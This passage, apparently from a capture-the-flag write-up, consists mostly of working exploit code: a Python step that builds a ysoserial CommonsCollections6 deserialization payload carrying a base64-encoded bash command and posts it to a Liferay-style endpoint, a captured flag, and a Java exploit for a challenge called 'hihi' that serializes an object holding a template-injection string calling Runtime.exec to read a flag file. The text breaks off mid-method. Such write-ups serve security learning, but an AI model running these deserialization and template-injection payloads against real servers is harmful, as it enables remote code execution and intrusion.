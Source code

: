 ```python
os.system(f"java --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.trax=ALL-UNNAMED --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.runtime=ALL-UNNAMED --add-opens=java.base/java.net=ALL-UNNAMED --add-opens=java.base/java.util=ALL-UNNAMED -jar ysoserial-all.jar CommonsCollections6 \"bash -c {{echo,${base64.b64encode(cmd).encode("utf-8")}}}|{{base64,-d}}|bash\" > payload.bin")

requests.post(URL + "/api////liferay", data = open("payload.bin", "rb"))
```

`ISITDTU{why_why_why????????046f0d87baf17c101fda8eef58c63fc8}`

------------------
## hihi
#deserialization #ssti #filter-bypass 
### Exploit
`Main.java`
```java
import com.isitdtu.hihi.Users;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.io.Serializable;
import java.util.Base64;
import java.io.BufferedReader;
import java.io.InputStreamReader;
import java.io.OutputStream;
import java.net.HttpURLConnection;
import java.net.URL;
import java.net.URLEncoder;

class Main {
    public static void main(String[] args) throws Exception {
        Users originalObject = new Users("${date.class.forName('java.lang.Runtime').getRuntime().exec('cat /app/flag_randomname').getInputStream().readAllBytes()}");
        String serializedObject = serialize(originalObject);
        try {
            submitPostRequest(serializedObject);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    private static String serialize(Serializable obj) throws Exception {
        ByteArrayOutputStream baos = new ByteArrayOutputStream(512);
        try (ObjectOutputStream out = new ObjectOutputStream(baos)) {
            out.writeObject(obj);
        }
        return Base64.getEncoder().encodeToString(bytesToHex(baos.toByteArray()).getBytes());
    }

    private static <T> T deserialize(String base64SerializedObj) throws Exception {
        try (ObjectInputStream in = new ObjectInputStream(new ByteArrayInputStream(Base64.getDecoder().decode(base64SerializedObj)))) {
            @SuppressWarnings("unchecked")
            T obj = (T) in.readObject();
            return obj;
        }
    }

    public static String bytesToHex(byte[] bytes) {
        StringBuilder hexString = new StringBuilder();
```